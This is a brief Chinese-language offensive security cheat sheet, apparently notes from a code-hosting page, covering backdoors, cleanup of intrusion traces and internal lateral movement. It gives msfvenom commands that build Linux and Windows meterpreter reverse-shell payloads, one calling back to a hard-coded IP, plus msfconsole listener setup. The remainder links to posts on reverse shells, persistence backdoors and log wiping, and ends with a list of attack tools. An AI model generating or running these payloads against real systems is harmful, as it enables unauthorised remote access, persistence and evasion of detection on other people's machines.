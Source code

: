 

### 后门

常见后门手法

metasploit
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=170.170.64.17 LPORT=4444 -f elf -o reverse_tcp_linux64
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=4444 -f exe -o reverse_tcp.exe
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST xxx.xxx.xxx.xxx
set LPORT 4444
run

常用后续命令
https://www.cnblogs.com/backlion/p/9484949.html
```

普通shell升级meterpreter
http://uuzdaisuki.com/2021/03/12/msf%E6%99%AE%E9%80%9Ashell%E5%8D%87%E7%BA%A7%E6%88%90meterpreter/

cs与msf互相转换
http://uuzdaisuki.com/2021/05/21/msf%E4%B8%8Ecs%E4%BA%92%E7%9B%B8%E8%BD%AC%E6%8D%A2/

python直连反弹shell  
http://uuzdaisuki.com/2018/06/17/%E5%9F%BA%E4%BA%8Epython%E7%9A%84%E7%9B%B4%E8%BF%9Eshell%E5%92%8C%E5%8F%8D%E5%B0%84shell/
其他语言直连反弹shell  

linux后门手法总结
http://uuzdaisuki.com/2021/01/05/linux%E5%90%8E%E9%97%A8%E6%89%8B%E6%B3%95%E6%80%BB%E7%BB%93/

windows常见后门手法（这篇几年前写的，后续有时间会出一篇新的较全面的奇淫技巧）  
http://uuzdaisuki.com/2018/06/18/windows%E5%B8%B8%E7%94%A8%E5%90%8E%E9%97%A8%E6%8A%80%E6%9C%AF%E5%8F%8A%E9%98%B2%E8%8C%83/

### 痕迹清理

痕迹清理
http://uuzdaisuki.com/2020/11/11/%E5%90%8E%E6%B8%97%E9%80%8F%E9%98%B6%E6%AE%B5%E6%B8%85%E7%90%86%E7%97%95%E8%BF%B9%E6%96%B9%E5%BC%8F%E6%80%BB%E7%BB%93/

### 内网横向渗透

Hydra

nessus

metasploit

nmap
